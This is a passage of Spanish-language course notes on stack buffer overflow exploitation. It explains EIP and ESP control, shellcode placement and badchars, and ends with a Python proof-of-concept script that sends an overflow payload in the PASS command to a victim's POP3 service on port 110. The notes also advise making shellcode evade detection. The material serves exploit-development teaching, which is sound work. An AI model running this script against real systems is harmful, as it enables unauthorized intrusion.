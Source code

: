 Después de sobrescribir el valor del registro EIP, cualquier carácter adicional que introduzcamos en el campo de entrada, veremos desde Immunity Debugger que en este caso particular estos estarán representados al comienzo de la **pila** (**stack**) en el registro **ESP** (**Extended Stack Pointer**). El ESP (Extended Stack Pointer) es un registro de la CPU que se utiliza para manejar la pila (stack) en un programa. La pila es una zona de memoria temporal que se utiliza para almacenar valores y **direcciones de retorno** de las funciones a medida que se van llamando en el programa.

Una vez que se ha identificado la ubicación de los caracteres en la memoria, la idea principal en este punto es introducir un **shellcode** en esa ubicación, que son instrucciones de bajo nivel las cuales en este caso corresponderán a una instrucción maliciosa.

El shellcode se introduce en la pila y se coloca en la misma dirección de memoria donde se colocaron los caracteres sobrescritos. En otras palabras, se aprovecha el desbordamiento del búfer para ejecutar el shellcode malicioso y tomar control del sistema.

Es importante tener en cuenta que el shellcode debe ser diseñado cuidadosamente para evitar que se detecte como un programa malicioso, y debe ser compatible con la arquitectura de la CPU y el sistema operativo que se está atacando.

En resumen, la asignación de espacio para el shellcode implica identificar la ubicación en la memoria donde se colocaron los caracteres sobrescritos en el buffer overflow y colocar allí el shellcode malicioso. Sin embargo, no todos los caracteres del shellcode pueden ser interpretados. En la siguiente clase veremos cómo detectar estos **badchars** y cómo generar un shellcode que no disponga de estos caracteres.
_____________________________
Podemos intentar modificar el script para agregar la letra **C** al **ESP** del programa

```python
#!/usr/bin/python3

import socket
import sys

# Variables globales
ip_address = "<ip_mauina_victima>"
port = 110
offset = 4654

before_eip = b"A"*offset
eip = b"B"*4
esp = b"C"*200

payload = before_eip + eip + esp

def exploit():
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((ip_address, port))
	banner = s.recv(1024)
	s.send(b"USER user" + b'\r\n')
	response = s.recv(1024)
	s.send(b"PASS " + payload + b'\r\n')
	s.close()

if __name__ == '__main__':
	exploit()
```
